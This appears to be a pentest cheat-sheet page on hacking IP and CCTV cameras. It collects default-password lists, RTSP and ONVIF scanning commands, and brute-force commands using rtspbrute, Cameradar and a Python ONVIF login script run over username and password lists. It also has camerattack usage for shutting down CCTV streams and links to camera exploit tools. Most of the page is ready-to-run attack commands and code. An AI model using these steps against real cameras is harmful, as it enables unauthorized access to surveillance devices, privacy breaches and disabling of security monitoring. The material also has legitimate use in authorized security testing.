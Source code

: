 # Hacking

&#x20;

<figure><img src="../../.gitbook/assets/image (162).png" alt="" width="563"><figcaption><p>"You see, but you do not observe." - S. Holmes</p></figcaption></figure>

## Default credentials

* [The default passwords of nearly every IP camera, Hackers Arise (2023)](https://www.hackers-arise.com/post/the-default-passwords-of-nearly-every-ip-camera)
* [Default Camera Passwords, IspyConnect](https://www.ispyconnect.com/userguide-default-passwords.aspx)

## RTSP

### Seeking out

> **Ports used by RTSP** :
>
> * 554
> * 5554
> * 8554

**Make a request**

```bash
curl -i -X OPTIONS rtsp://$ip/stream1 RTSP/1.1
# a valid RTSP service should respond RTSP/1.0 200 OK
```

### Scanning

```bash
nmap -sV --script "rtsp-*" -p <PORT> <IP>
```

### Bruteforce

[Common wordlist](https://github.com/nmap/nmap/blob/master/nselib/data/rtsp-urls.txt)

```bash
pip install rtspbrute av Pillow rich
rtspbrute -t hosts.txt -p 8554
```

### Cameradar | Get all the infos + bruteforce

```bash
git clone https://github.com/Ullaakut/cameradar
cd cameradar
# scan for default ports
docker run --net=host -t ullaakut/cameradar -t $ip

# bruteforce
docker run -t ullaakut/cameradar -t $ip -p $port -T 3s -s 3 -d
# with custom wordlist
docker run  ullaakut/cameradar -t -v /usr/share/seclists/Passwords/Common-Credentials:/tmp/dictionaries -c "tmp/dictionaries/10-million-password-list-top-1000000.json" -t 192.168.1.101
```

## ONVIF

> If you receive long output in XML markup, then this device has support for the ONVIF protocol. ONVIF does not have a standard port, usually this protocol is found on ports 8899, 80, 8080, 5000, 6688.

### Install

```bash
sudo pip install onvif
git clone https://github.com/quatanium/python-onvif.git
cd python-onvif && python setup.py install
```

### Commands

**- Get the hostname using this python script :**

```python
# python script
from onvif import ONVIFCamera
mycam = ONVIFCamera('192.168.0.2', 80, 'user', 'passwd', '/etc/onvif/wsdl/')

# Get Hostname
resp = mycam.devicemgmt.GetHostname()
print 'My camera`s hostname: ' + str(resp.Name)

# Get system date and time
dt = mycam.devicemgmt.GetSystemDateAndTime()
tz = dt.TimeZone
year = dt.UTCDateTime.Date.Year
hour = dt.UTCDateTime.Time.Hour
```

### Bruteforce

* Python Script :

```python
import sys
from onvif import ONVIFCamera
 
if len(sys.argv) < 4:
    user = ''
else:
    user = sys.argv[3]
 
if len(sys.argv) < 5:
    password = ''
else:
    password = sys.argv[4]      
 
mycam = ONVIFCamera(sys.argv[1], sys.argv[2], user, password, '/usr/local/lib/python3.9/site-packages/wsdl/')
 
resp = mycam.devicemgmt.GetDeviceInformation()
print (str(resp))
```

* Launch it :

```bash
parallel -j2 -a usernames.txt -a passwords.txt 'python3 bruteforcer.py $ip $port 2>/dev/null {1} {2}'
```

## Shut down CCTV

{% embed url="https://github.com/Ullaakut/camerattack" %}

```bash
# install
export GO111MODULE=on
go get github.com/ullaakut/camerattack@latest
cd $GOPATH/src/github.com/ullaakut/camerattack
go install

# usage
camerattack rtsp://0.0.0.0:8554/live.sdp
```

## Tricks

* Try to login with empty passwords 7+ times

## Tools

{% embed url="https://github.com/EntySec/CamOver" %}
For CCTV, GoAhead, Netwave
{% endembed %}

## Resources

*   [Exploiting Surveillance Cameras like a Hollywood Hacker - Craig Heffner (2013)](https://media.blackhat.com/us-13/US-13-Heffner-Exploiting-Network-Surveillance-Cameras-Like-A-Hollywood-Hacker-WP.pdf)

    > Linked exploit tool : [IPCamShell](https://github.com/nmalcolm/ipcamshell)
* [Hacking CCTV and IP cameras: Are you safe ? - David Bombai, Youtube (2022)](https://www.youtube.com/watch?v=ZGCScbV7vSA)
